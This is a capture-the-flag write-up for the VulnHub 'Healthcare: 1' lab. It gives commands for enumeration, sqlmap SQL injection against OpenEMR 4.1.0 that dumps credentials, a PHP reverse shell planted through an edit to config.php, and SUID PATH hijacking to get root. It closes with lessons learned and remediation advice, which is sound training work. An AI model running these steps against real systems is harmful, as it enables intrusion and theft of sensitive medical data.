




# Healthcare: 1 — Writeup

| | |
|-|-|
| **Target IP** | 192.168.0.158 (host-only) |
| **Difficulty** | Easy |
| **OS** | Linux |
| **Root Flag** | /root/root.txt |
| **Source** | [VulnHub](https://www.vulnhub.com/entry/healthcare-1,522/) |

## Attack Summary

nmap → gobuster → OpenEMR 4.1.0 → sqlmap (users table) → admin login → PHP shell via config.php → SUID healthcheck binary → PATH hijack → root

## Methodology

1. Network discovery + port scan
2. Directory enumeration → /openemr
3. SQLi in OpenEMR validateUser.php → credential dump
4. Admin login → PHP reverse shell via config.php edit
5. SUID binary `healthcheck` → PATH hijacking → root

---

## Step 1: Network Discovery

```bash
sudo netdiscover -i eth1 -r 192.168.56.0/24
```

Target at 192.168.0.158.

```bash
nmap -A 192.168.0.158
```

Open ports: 21 (FTP), 80 (HTTP Apache).


---

## Step 2: Directory Enumeration

```bash
gobuster dir -u http://192.168.0.158/ \
  -w /opt/SecLists/Discovery/Web-Content/directory-list-2.3-big.txt \
  -t 100 -e
```

Discovered: `/openemr` — running **OpenEMR v4.1.0**.

---

## Step 3: SQL Injection (OpenEMR)

OpenEMR 4.1.0 is vulnerable to SQL injection in `validateUser.php`:

```bash
# Enumerate databases
sqlmap -u "http://192.168.0.158/openemr/interface/login/validateUser.php?u=" \
  --dbs --batch

# Dump users table
sqlmap -u "http://192.168.0.158/openemr/interface/login/validateUser.php?u=" \
  -D openemr -T users --dump --batch
```

Credentials extracted: `admin:ackbar` (and `medical:medical`).



---

## Step 4: PHP Reverse Shell via OpenEMR Admin

1. Log in to OpenEMR as `admin:ackbar`
2. Navigate to **Administration → Files → config.php**
3. Replace contents with a PHP reverse shell (set IP to attacker)
4. Start listener:

```bash
nc -lvp 1234
```

5. Reload the OpenEMR page to trigger the shell.

```bash
python -c 'import pty; pty.spawn("/bin/bash")'
su medical  # password: medical
```



---

## Step 5: SUID Binary → PATH Hijack

```bash
find / -perm -u=s -type f 2>/dev/null
# Found: /usr/bin/healthcheck
```

Inspect what it calls:

```bash
strings /usr/bin/healthcheck
# Calls: ifconfig, fdisk (without full paths)
```

Hijack the PATH to intercept `fdisk`:

```bash
cd /tmp
echo "/bin/bash" > fdisk
chmod 777 fdisk
export PATH=/tmp:$PATH
/usr/bin/healthcheck
```

SUID binary executes `/tmp/fdisk` as root → root shell.

```bash
whoami
# root
cd /root && cat root.txt
```





---

## Lessons Learned

1. **OpenEMR 4.1.0 SQLi** (unauthenticated) directly yields admin credentials — keep medical software patched
2. **Editable PHP config files** via admin panel = instant RCE; restrict filesystem write access
3. **SUID binaries calling relative paths** are vulnerable to PATH hijacking — always use absolute paths in SUID programs
4. Default credentials (`medical:medical`) should never survive deployment

## Remediation

| Vulnerability | Fix |
|---------------|-----|
| OpenEMR 4.1.0 SQLi | Upgrade to patched version; use parameterized queries |
| PHP config editable via web UI | Restrict filesystem permissions on config.php |
| SUID binary with relative path calls | Rewrite healthcheck to use absolute paths (/sbin/ifconfig, /sbin/fdisk) |
| Default credentials | Enforce password change on first login |
